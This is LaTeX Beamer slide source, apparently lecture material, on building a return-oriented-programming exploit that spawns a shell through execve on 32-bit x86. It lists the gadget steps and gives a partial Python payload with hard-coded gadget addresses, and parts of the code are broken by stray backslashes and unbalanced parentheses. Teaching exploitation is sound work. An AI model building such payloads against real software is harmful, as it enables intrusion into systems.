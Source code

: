 \documentclass[11pt]{beamer}
\begin{document}
\section{Example: Open a shell}
\subsection{Target Program and Compilation}
\begin{frame}[fragile]
    \frametitle{Target Program and Compliation}
\end{frame}
\subsection{General approach}
\begin{frame}[fragile]
    \frametitle{Spawning a shell: Approach}
    \begin{itemize}
        \item Using ropper we can find our desired gadgets
        \item Lets say we want to execute a shell using execve, for that we need to accomplish the following goals
        \begin{enumerate}
            \item write /bin/sh into memory (at the data segment)
            \item init systemcall number (11)
            \item init systemcall argument (address of /bin//sh)
            \item call systemcall
        \end{enumerate}
    \end{itemize}
\end{frame}
\subsection{Generating the payload}
\begin{frame}[fragile]
    \frametitle{Generating the payload, writing /bin}
    \begin{lstlisting}[style=code, language=python]
from struct import pack

p = 'AAAABBBBCCCC'
p += str(pack\('<I', 0x080958b5) # pop edx; xor eax, eax; pop edi; ret;
p += str(pack\('<I', 0x080f0f6c) # @ .data
p += str(pack\('<I', 0x00000000) # @ NULL
p += str(pack\('<I', 0x080b526a) # pop eax ; ret
p += '/bin'
p += str(pack\('<I', 0x08059402) # mov dword ptr [edx], eax ; ret
    \end{lstlisting}
\end{frame}
\end{document}
